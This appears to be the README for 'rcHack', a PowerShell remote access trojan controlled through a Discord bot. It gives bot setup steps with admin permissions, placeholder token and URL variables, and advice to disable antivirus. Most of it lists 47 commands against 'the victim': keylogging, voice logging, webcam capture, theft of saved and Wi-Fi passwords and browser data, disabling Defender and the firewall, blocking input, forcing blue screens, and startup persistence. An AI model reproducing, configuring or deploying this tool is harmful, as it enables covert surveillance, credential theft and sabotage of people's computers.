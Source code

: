 ## How to Set Up the Discord Bot?

1. Go to [Discord Developer Portal](https://discord.com/developers/applications).
2. Click "New application," name it, and click "Create."
3. In the Bot tab, copy the bot token.
4. Under Privileged Gateway Intents, enable:
   - PRESENCE INTENT
   - SERVER MEMBERS INTENT
   - MESSAGE CONTENT INTENT
   Then click "Save Changes."
5. In the Oauth2 tab:
   - Under Redirects, type `http://localhost/`.
   - Enable the following:
     - `messages.read`
     - `applications.commands`
     - `bot`
   - Select redirect URL `http://localhost/` and add the
   - `admin` permission.
   - Copy the generated URL.
6. Open the copied URL in the browser and follow the steps to add the bot to your server.

Now the bot is set up. Update the `rcHack.ps1` file with the bot token and server ID.

# rcHack Discord Bot Setup

## Setup Instructions for rcHack.ps1

1. Open `rcHack.ps1` in a text editor.
2. Edit the following variables with your specific information:
   ```powershell
   $token = "YOUR_DISCORD_BOT_TOKEN_HERE"

   $guildId = "YOUR_DISCORD_SERVER_ID"

   $StartupPsOnlineFileLocation = "HTTPS://WWW.EXAMPLE.COM/URL_TO_YOUR_RCHACK_SCRIPT.PS1"
   ```
the `StartupPsOnlineFileLocation` url should lead to an online-hosted version of itself (an exact copy)


1. Creating the Bot
   ![Creating the Bot](images/1%20creating%20the%20bot.png)

2. Naming the Bot
   ![Naming the Bot](images/2%20naming%20the%20bot.png)

3. Bot Tab
   ![Bot Tab](images/3%20bot%20tab.png)

4. Reset Token
   ![Reset Token](images/4%20reset%20token.png)

5. Copy Token
   ![Copy Token](images/5%20copy%20token.png)

6. Privileged Gateway Intents
   ![Privileged Gateway Intents](images/6%20privileged%20gateway%20intents.png)

7. OAuth2
   ![OAuth2](images/7%20oauth2.png)

8. Redirect URL
   ![Redirect URL](images/8%20redirect%20url.png)

9. Permissions
   ![Permissions](images/9%20permissions.png)

10. Admin
    ![Admin](images/10%20admin.png)

11. Add Bot
    ![Add Bot](images/11%20add%20bot.png)

---

# `Depending on your version of windows and if you have an av installed, you may need to disable your antivirus and windows defender.`

```plaintext
COMMAND_NAME                           |                           PARAMETERS
--------------------------------------------------------------------------------
If you see 'Requires admin.', that means the script wasn't run as administrator.
--------------------------------------------------------------------------------
E          X          A          M          P          L          E          S

1. !cmd               // Executes a command in cmd and returns the output
   Example: !cmd ipconfig

2. !powershell        // Executes a command in PowerShell and returns the output
   Example: !powershell ipconfig

3. !dir               // Displays the current directory
   Example: !dir

4. !cd                // Changes the current directory
   Example: !cd C:\location\of\file

5. !download          // Downloads a file from a specified location or current directory
   Example: !download C:\location\of\file\file.txt
   Example: !download file.txt

6. !upload {ATTACHMENT} // Uploads any attachment to the current directory
   Example: !upload {ATTACHMENT}

7. !delete            // Deletes a specified file or directory
   Example: !delete C:\location\of\file\file.txt

8. !availwifi         // Retrieves available Wi-Fi networks
   Example: !availwifi

9. !wifipass          // Retrieves Wi-Fi passwords
   Example: !wifipass

10. !screenshot        // Captures a screenshot of the victim's screen
    Example: !screenshot

11. !webcampic         // Captures and returns a picture from the webcam
    Example: !webcampic

12. !wallpaper         // Changes the wallpaper of the victim's computer
    Example: !wallpaper C:\path\to\wallpaper.jpg

13. !keylogger         // Activates keylogger to record keystrokes
    Example: !keylogger

14. !getkeylog         // Retrieves the logged keystrokes
    Example: !getkeylog

15. !voicelogger       // Activates voicelogger to transcribe spoken words
    Example: !voicelogger

16. !getvoicelog       // Retrieves the logged voice recordings
    Example: !getvoicelog

17. !disabledefender   // Disables Windows Defender
    Example: !disabledefender

18. !disablefirewall   // Disables the Windows Firewall
    Example: !disablefirewall

19. !shutdown          // Shuts down the victim's computer
    Example: !shutdown

20. !restart           // Restarts the victim's computer
    Example: !restart

21. !logoff            // Logs off the user from the victim's computer
    Example: !logoff

22. !msgbox            // Displays a customizable message box
    Example: !msgbox TITLE_HERE,MESSAGE_HERE,Warning,YesNoCancel

23. !hackergoose       // Employs a specialized goose for real-time hacking
    Example: !hackergoose

24. !website           // Opens a specified website
    Example: !website www.example.com

25. !minapps           // Minimizes all windows on the victim's computer
    Example: !minapps

26. !ip                // Retrieves the victim's IP address
    Example: !ip

27. !passwords          // Retrieves the victim's saved passwords
    Example: !passwords

28. !browserdata       // Retrieves browser data
    Example: !browserdata

29. !networkscan       // Scans and retrieves information about the network
    Example: !networkscan

30. !volume            // Adjusts the volume of the victim's computer
    Example: !volume 50

31. !voice             // Makes the victim's computer speak a specified message
    Example: !voice You are hacked!

32. !proclist       // Retrieves a list of all running processes
    Example: !proclist

33. !prockill          // Terminates a specified process
    Example: !prockill process_name.exe

34. !write             // Types a specified message
    Example: !write Hello, world!

35. !clipboard         // Retrieves the last copied item
    Example: !clipboard

36. !idletime          // Retrieves the duration of the victim's idle time in seconds
    Example: !idletime

37. !datetime          // Retrieves the date and time of the victim's computer
    Example: !datetime

38. !bluescreen        // Triggers a blue screen on the victim's computer
    Example: !bluescreen

39. !delpasswords      // Deletes all passwords for all accounts on the current computer
    Example: !delpasswords

40. !geolocate         // Retrieves the victim's geolocation data
    Example: !geolocate

41. !block             // Blocks the victim's keyboard and mouse (requires admin)
    Example: !block

42. !unblock           // Unblocks the victim's keyboard and mouse (requires admin)
    Example: !unblock

43. !disabletaskmgr    // Disables Task Manager (requires admin)
    Example: !disabletaskmgr

44. !enabletaskmgr     // Enables Task Manager (requires admin)
    Example: !enabletaskmgr

45. !startup           // Enables persistence for this script
        will add a ps1 script to startup
        on line 9, set the var StartupPsOnlineFileLocation to the full url of your ps1 file
    Example: !startup

46. !implode           // Triggers a system implosion (Use with caution!)
    Example: !implode

47. !help              // Displays information about available commands
    Example: !help
```
